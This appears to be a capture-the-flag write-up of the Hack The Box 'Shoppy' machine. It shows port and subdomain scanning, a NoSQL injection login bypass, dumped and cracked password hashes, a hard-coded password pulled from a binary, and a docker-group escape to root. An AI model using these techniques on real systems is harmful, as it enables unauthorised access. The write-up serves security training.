


# Shoppy

```bash
TARGET=10.10.11.180
```

```bash
$ sudo nmap -p- --min-rate 10000 $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 05:23 PDT
Warning: 10.10.11.180 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.180
Host is up (0.11s latency).
Not shown: 63242 closed tcp ports (reset), 2290 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

Nmap done: 1 IP address (1 host up) scanned in 22.28 seconds
```

```bash
$ sudo nmap -p 22,80,9093 -sV -sC $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 05:26 PDT
Nmap scan report for 10.10.11.180
Host is up (0.091s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Sat, 22 Jun 2024 05:27:12 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 7
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 7
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.7078e-05
|     go_gc_duration_seconds{quantile="0.25"} 0.000111799
|_    go_gc_du
```

```bash
$ curl -I $TARGET
HTTP/1.1 301 Moved Permanently
Server: nginx/1.23.1
Date: Sat, 22 Jun 2024 05:27:25 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive
Location: http://shoppy.htb
```

```bash
$ cat /etc/hosts | grep $TARGET   
10.10.11.180    shoppy.htb
```

```bash
$ curl -s http://$TARGET:9093                                                                                       
# HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
# TYPE go_gc_cycles_automatic_gc_cycles_total counter
go_gc_cycles_automatic_gc_cycles_total 22
...
# HELP playbooks_plugin_system_playbook_instance_info Instance information for Playbook.
# TYPE playbooks_plugin_system_playbook_instance_info gauge
playbooks_plugin_system_playbook_instance_info{Version="1.29.1"} 1
```


This port seems to be related to this `mattermost` software.

Testing a different host header with a random subdomain redirects to `shoppy.htb`

```bash
$ curl -I http://$TARGET -H "Host: test.shoppy.htb"
HTTP/1.1 301 Moved Permanently
Server: nginx/1.23.1
Date: Sat, 22 Jun 2024 06:11:58 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive
Location: http://shoppy.htb
```

But if we try `mattermost` as the subdomain we get an different code.

```bash
$ curl -I http://$TARGET -H "Host: mattermost.shoppy.htb"
HTTP/1.1 405 Method Not Allowed
Server: nginx/1.23.1
Date: Sat, 22 Jun 2024 06:11:39 GMT
Connection: keep-alive
```

Also checked for other subdomains.

```bash
$ wfuzz -u http://$TARGET -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hc 301
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.180/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"                                                   

Total time: 939.5026
Processed Requests: 100000
Filtered Requests: 99999
Requests/sec.: 106.4392
```

```bash
$ cat /etc/hosts | grep $TARGET                    
10.10.11.180    shoppy.htb mattermost.shoppy.htb
```


```bash
$ feroxbuster -u http://shoppy.htb

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://shoppy.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       10l       15w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        1l        4w       28c http://shoppy.htb/admin => http://shoppy.htb/login
301      GET       10l       16w      179c http://shoppy.htb/images => http://shoppy.htb/images/
301      GET       10l       16w      171c http://shoppy.htb/js => http://shoppy.htb/js/
301      GET       10l       16w      173c http://shoppy.htb/css => http://shoppy.htb/css/
200      GET       66l      128w     1108c http://shoppy.htb/css/loader.css
200      GET      168l      474w     6338c http://shoppy.htb/css/roboto.css
200      GET      425l     1131w     7782c http://shoppy.htb/css/normalize.css
301      GET       10l       16w      179c http://shoppy.htb/assets => http://shoppy.htb/assets/
200      GET        2l       80w     3292c http://shoppy.htb/assets/css/styles.min.css
200      GET     1038l     2050w    17441c http://shoppy.htb/css/style.css
302      GET        1l        4w       28c http://shoppy.htb/Admin => http://shoppy.htb/login
200      GET       68l      137w     1721c http://shoppy.htb/js/main.js
200      GET      564l     1808w    17534c http://shoppy.htb/js/plugins.js
200      GET       11l       46w    51284c http://shoppy.htb/assets/fonts/ionicons.min.css
200      GET       26l       62w     1074c http://shoppy.htb/Login
200      GET        4l       64w    23739c http://shoppy.htb/css/font-awesome.min.css
200      GET        1l       71w     3363c http://shoppy.htb/js/jquery.countdown.min.js
200      GET        7l     4514w   188924c http://shoppy.htb/assets/bootstrap/css/bootstrap.min.css
301      GET       10l       16w      177c http://shoppy.htb/fonts => http://shoppy.htb/fonts/
200      GET        7l     1031w    78129c http://shoppy.htb/assets/bootstrap/js/bootstrap.min.js
200      GET       26l       62w     1074c http://shoppy.htb/login
301      GET       10l       16w      185c http://shoppy.htb/assets/js => http://shoppy.htb/assets/js/
301      GET       10l       16w      187c http://shoppy.htb/assets/css => http://shoppy.htb/assets/css/
301      GET       10l       16w      187c http://shoppy.htb/assets/img => http://shoppy.htb/assets/img/
301      GET       10l       16w      191c http://shoppy.htb/assets/fonts => http://shoppy.htb/assets/fonts/
302      GET        1l        4w       28c http://shoppy.htb/ADMIN => http://shoppy.htb/login
200      GET     9789l    41511w   295289c http://shoppy.htb/js/jquery.js
200      GET       57l      129w     2178c http://shoppy.htb/
301      GET       10l       16w      203c http://shoppy.htb/assets/img/avatars => http://shoppy.htb/assets/img/avatars/
301      GET       10l       16w      181c http://shoppy.htb/exports => http://shoppy.htb/exports/
301      GET       10l       16w      197c http://shoppy.htb/assets/img/dogs => http://shoppy.htb/assets/img/dogs/
200      GET       26l       62w     1074c http://shoppy.htb/LOGIN
[####################] - 7m    390061/390061  0s      found:32      errors:0      
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/images/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/js/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/css/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/assets/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/fonts/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/assets/js/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/assets/css/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/assets/img/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/assets/fonts/ 
[####################] - 6m     30000/30000   81/s    http://shoppy.htb/assets/img/avatars/ 
[####################] - 6m     30000/30000   80/s    http://shoppy.htb/exports/ 
[####################] - 5m     30000/30000   108/s   http://shoppy.htb/assets/img/dogs/ 
```

`/admin` and `/login` are the most interesting ones (though the former just redirects to the latter)


[Hack Tricks - NoSQLi](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo)

```bash
admin' || 'a'=='a
```








```bash
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"

1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```


```bash
6ebcea65320589ca4f2f1ce039975995	md5	remembermethisway
```


```bash
$ sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@$TARGET
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.

jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
```

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

```bash
jaeger@shoppy:~$ sudo --user=deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: test
Access denied! This incident will be reported !
```

```bash
jaeger@shoppy:~$ file /home/deploy/password-manager
/home/deploy/password-manager: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=400b2ed9d2b4121f9991060f343348080d2905d1, for GNU/Linux 3.2.0, not stripped
```

```bash
jaeger@shoppy:~$ strings /home/deploy/password-manager
...
[]A\A]A^A_
Welcome to Josh password manager!
Please enter your master password: 
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied! This incident will be reported !
;*3$"
zPLR
...
```

```bash
jaeger@shoppy:~$ man strings
...
       -e encoding
       --encoding=encoding
           Select the character encoding of the strings that are to be found.  Possible values for encoding are: s =
           single-7-bit-byte characters (ASCII, ISO 8859, etc., default), S = single-8-bit-byte characters, b = 16-bit
           bigendian, l = 16-bit littleendian, B = 32-bit bigendian, L = 32-bit littleendian.  Useful for finding wide
           character strings. (l and b apply to, for example, Unicode UTF-16/UCS-2 encodings).
...
```

```bash
jaeger@shoppy:~$ strings /home/deploy/password-manager -e l
Sample
```

```bash
jaeger@shoppy:~$ xxd /home/deploy/password-manager | less
...
00002000: 0100 0200 0000 0000 0000 0000 0000 0000  ................
00002010: 5765 6c63 6f6d 6520 746f 204a 6f73 6820  Welcome to Josh 
00002020: 7061 7373 776f 7264 206d 616e 6167 6572  password manager
00002030: 2100 0000 0000 0000 506c 6561 7365 2065  !.......Please e
00002040: 6e74 6572 2079 6f75 7220 6d61 7374 6572  nter your master
00002050: 2070 6173 7377 6f72 643a 2000 0053 0061   password: ..S.a
00002060: 006d 0070 006c 0065 0000 0000 0000 0000  .m.p.l.e........
00002070: 4163 6365 7373 2067 7261 6e74 6564 2120  Access granted! 
00002080: 4865 7265 2069 7320 6372 6564 7320 2100  Here is creds !.
00002090: 6361 7420 2f68 6f6d 652f 6465 706c 6f79  cat /home/deploy
000020a0: 2f63 7265 6473 2e74 7874 0000 0000 0000  /creds.txt......
000020b0: 4163 6365 7373 2064 656e 6965 6421 2054  Access denied! T
000020c0: 6869 7320 696e 6369 6465 6e74 2077 696c  his incident wil
000020d0: 6c20 6265 2072 6570 6f72 7465 6420 2100  l be reported !.
000020e0: 011b 033b 4c00 0000 0800 0000 40ef ffff  ...;L.......@...
...
/password
```

```bash
jaeger@shoppy:~$ sudo --user=deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

```bash
$ sshpass -p 'Deploying@pp!' ssh deploy@$TARGET                                 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

$ /bin/bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

Checking the source code allow us to understand how the `Sample` password was defined.

```bash
deploy@shoppy:~$ cat password-manager.cpp 
#include <iostream>
#include <string>

int main() {
    std::cout << "Welcome to Josh password manager!" << std::endl;
    std::cout << "Please enter your master password: ";
    std::string password;
    std::cin >> password;
    std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
    if (password.compare(master_password) == 0) {
        std::cout << "Access granted! Here is creds !" << std::endl;
        system("cat /home/deploy/creds.txt");
        return 0;
    } else {
        std::cout << "Access denied! This incident will be reported !" << std::endl;
        return 1;
    }
}
```

```bash
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
alpine       latest    d7d3d98c851f   23 months ago   5.53MB
```

```bash
deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

```bash
/ # cd /mnt/
/mnt # ls
bin             initrd.img      libx32          proc            sys             vmlinuz.old
boot            initrd.img.old  lost+found      root            tmp
dev             lib             media           run             usr
etc             lib32           mnt             sbin            var
home            lib64           opt             srv             vmlinuz
```

```bash
/mnt # chroot .
root@7518508fd258:/# cat /root/root.txt 
c868d4b*************************
```

## Extra

```bash
$ sshpass -p 'Sh0ppyBest@pp!' scp jaeger@$TARGET:/home/deploy/password-manager .
$ ls -lha password-manager                                    
-rwxr--r-- 1 kali kali 19K Jun 22 07:52 password-manager
```


